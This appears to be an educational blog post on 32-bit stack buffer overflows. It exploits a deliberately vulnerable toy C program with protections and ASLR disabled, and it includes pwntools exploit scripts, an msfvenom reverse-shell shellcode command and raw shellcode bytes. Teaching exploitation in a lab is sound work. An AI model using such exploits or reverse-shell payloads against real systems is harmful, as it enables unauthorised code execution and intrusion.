









In this post, we will see what is a buffer overflow and will exploit it to get code execution.
Do Not feel overwhelmed. Just follow along and we'll have fun.

If you are new to the series, check out my previous posts [here](/blog/series/binary-exploitation-adventures)

## The Stack

Take this C program:


```c
#include <stdio.h>
#include <unistd.h>

int helper(){
    system("/bin/sh");      // executes system shell
}

int overflow(){
    char buffer[500];       // declaring buffer variable with specified size
    int userinput;
    userinput = read(0, buffer, 700);   // reading user input into buffer variable
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```


If we break down the program from the `main` function, it calls the `overflow` function which declares a variable of size 500 bytes and then, reads user input into that variable. Later, it prints the size of the provided input along with the input itself.

After compiling, here's what the program does:




We have to compile the program with the following command:

```shell
gcc -m32 -fno-stack-protector -z execstack program.c -o program
```


Also, we need to disable ASLR with the following command:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Everytime you reboot your machine, you'll have to do this step again.

<details><summary><b>What's going on?</b></summary>

> Modern programs come with a bunch of exploit mitigations.
> For example, we can see the protections on the `ping` binary which is mostly present on linux as well as windows, with [`checksec`](https://github.com/slimm609/checksec.sh) script.
> 

> 
>
> So, initially we'll be working with those protections disabled and that is why we're giving those extra flags to gcc.
>
> Here we can see the protections on our (compiled) program:
> 

> 
> For now, you don't need to care about them. We'll learn to bypass some anti-exploit mechanisms later on.
</details><br>

<br>

In general, the stack is aligned this way:


Since our program is not dealing with any arguments, so, in our case, it's like this:


## Stack Abuse

What if we give the program some unexpected input? <br>
What if we give an input, more in magnitude than the defined buffer is supposed to handle?

Let's take a look.

When we give an input bigger than a defined buffer, if the program is vulnerable, we overwrite other stuff that is already present on the stack.

Our goal is to overwrite the `return address` of the function so that we can point the EIP to a memory address of our own choice.


Normally, one can just get creative and give a program random inputs until something desirable is received back :) 

### Deep Dive

Let's give our program some random inputs, with the help of Python.<br>
(You know we can `pipe` the output of one command to another, right?)





Hnmm.. so, eventually, we broke the program!

Let's generate a pattern with `cyclic` utility and analyse the program with gdb to determine the offset of EIP.
<details><summary>Alternative</summary>

One can also use metasploit's `msf-pattern_create` and `msf-pattern_offset` to achieve the same result.
</details><br>





We get the offset to be `516`.

Now, we will send calculated input to see if we can control the EIP.





And.. Yes! We can see `0x42424242`, the hex code for the 4 B's we sent.

## EIP Control

When we have EIP under control, one of the first things we can do is to reuse the dead code present inside a binary.

**Dead Code** is a piece of code within a program which is not used when the program executes.

### Code Reuse

We can see that the `helper` function isn't called during the program execution. Since we have control over the EIP, we can point it to the `helper` function to get it executed.

For that purpose, we need the memory address of the `helper` function.
We can find it with gdb as:





Our binary is 32-bit and 32-bit programs use [little-endian](https://chortle.ccsu.edu/assemblytutorial/Chapter-15/ass15_3.html), due to which we have to provide the memory address in reverse bytes order.





But.. we still get `segmentation fault`.

No need to worry. This is a common thing in exploit dev. Let's arrange the bytes a little bit and see what happens.





Yay! Did you see? a new process `/usr/bin/dash` started.. Our Shell!

But, wait.. it also did `exit` even before we could interact with it.

What happens under the hood is that a child process `dash` is started which operates by getting input from user (like `bash` or `sh`) but the parent process (our `program`) is done with its job and exits. The child process with no input, consequently, also exits.

We can take help of `cat` command to make the terminal wait for input.<br>
But, for convenience, we are going to use an awesome tool, a python library, `pwntools` to make our exploitation process easy.

**[Pwntools](https://github.com/Gallopsled/pwntools)**

Here's a nice little exploit:


```py {linenos=true}
#!/bin/python3
from pwn import *

exe = './program'

payload=flat("A"*516,0x565561b9)

io = process(exe)
io.sendline(payload)
io.interactive()
```



Upon running the exploit, we successfully get a system shell and can execute arbitrary commands :fire:





## Shellcode

The `helper` function made the exploitation very easy for us this time but, normally, we don't have such a luxury very often. Then what are we supposed to do?

Well, we can put machine/shell code on the stack and then point the EIP to it to achieve code execution.



For now, we are going to use `msfvenom`, an automated tool to generate the shellcode for us with this command:

```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=1236 -b "\x00" -f py
```





We will use gdb and take note of the memory address from where our buffer starts.




We're giving dumb input (just A's) so that we can easily see our buffer.




We can see that our buffer is starting on the second line. Keep note of the memory address `0xffffcc18`.


### Exploitation

Let's prepare our exploit:

```py
#!/bin/python3
from pwn import *

exe = './program'
elf = context.binary = ELF(exe, checksec=False)

buf =  b""
buf += b"\xbf\x48\x8a\xd9\x40\xd9\xec\xd9\x74\x24\xf4\x5e\x29"
buf += b"\xc9\xb1\x12\x83\xc6\x04\x31\x7e\x0e\x03\x36\x84\x3b"
buf += b"\xb5\xf7\x43\x4c\xd5\xa4\x30\xe0\x70\x48\x3e\xe7\x35"
buf += b"\x2a\x8d\x68\xa6\xeb\xbd\x56\x04\x8b\xf7\xd1\x6f\xe3"
buf += b"\x78\x22\x90\xf2\xee\x20\x90\xf0\x3a\xad\x71\x48\xa4"
buf += b"\xfe\x20\xfb\x9a\xfc\x4b\x1a\x11\x82\x1e\xb4\xc4\xac"
buf += b"\xed\x2c\x71\x9c\x3e\xce\xe8\x6b\xa3\x5c\xb8\xe2\xc5"
buf += b"\xd0\x35\x38\x85"

payload=flat("\x90"*16,buf,"A"*(500-len(buf)),0xffffcc18)

write("payload",payload)
```


We have inserted a NOP slide (`\x90`) in the payload before the shell code.

A NoOPeration instruction tells the CPU to do nothing (and just move to next instruction). Even if the stack alignment gets changed a bit, our NOP instructions won't let our (noted) memory address go useless.

Let's run the exploit to get our `payload`.

We run the program with a breakpoint set and feed to it the payload. Then, we  see what's there on the stack:







Let's setup a `netcat` listener in another terminal.




Now, let's `continue`:




Gdb is telling us that a new program is launched.

On switching to our second terminal, the one with listener.. we can see:




Vola! We got our reverse shell :fire: :sunglasses:
